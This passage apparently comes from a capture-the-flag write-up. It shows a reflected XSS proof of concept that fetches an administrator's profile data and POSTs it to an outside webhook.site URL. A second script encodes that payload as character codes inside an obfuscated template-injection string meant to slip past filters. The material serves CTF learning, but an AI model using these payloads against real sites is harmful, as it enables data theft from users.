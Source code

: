 ![alt text](./.imgs/image-6.png)

### Step 5: Capture the Flag

Now we know that it's vulnerable, time to re-pwn the administrators with the same previous payload, yet with just some extra tweaking.

```js
// Reflected XSS PoC
let webhook = `https://webhook.site/4625d87d-847d-4d68-870d-33c822601651`; // Replace this

fetch(`http://127.0.0.1:5000/v1/api/profile/get`)
  .then((e) => e.blob())
  .then((e) => {
    let t = new File([e], `image.jpg`, {
        type: e.type,
      }),
      p = new FormData();
    p.append(`file`, t),
      fetch(webhook, {
        method: `POST`,
        body: p,
      });
  })
  .catch(console.error);
```

After replacing the `YOUR_WEBHOOK_URL` and minifying the entire piece of code. Turn that minified version into a charCode version, you can either do it manually or try the following lines of code or any with similar logic.

```js
// PoC script
// REPLACE YOUR CODE HERE vvv

let payload = "REPLACE_HERE"; // Make sure to minify it first
let charcodePayload = Array.from(payload).map(c => c.charCodeAt(0))
let final_payload = `{"{{{((767015343).toString(36).concat((50986827).toString(36))).sub.call.call({}[((767015343).toString(36).concat((50986827).toString(36)))].getOwnPropertyDescriptor(((767015343).toString(36).concat((50986827).toString(36))).sub.__proto__,((767015343).toString(36).concat((50986827).toString(36)))).value,0,toString()[((767015343).toString(36).concat((50986827).toString(36)))].fromCharCode(${charcodePayload.join()}))()}}}"}`
console.log(final_payload); // <-- Final payload
```
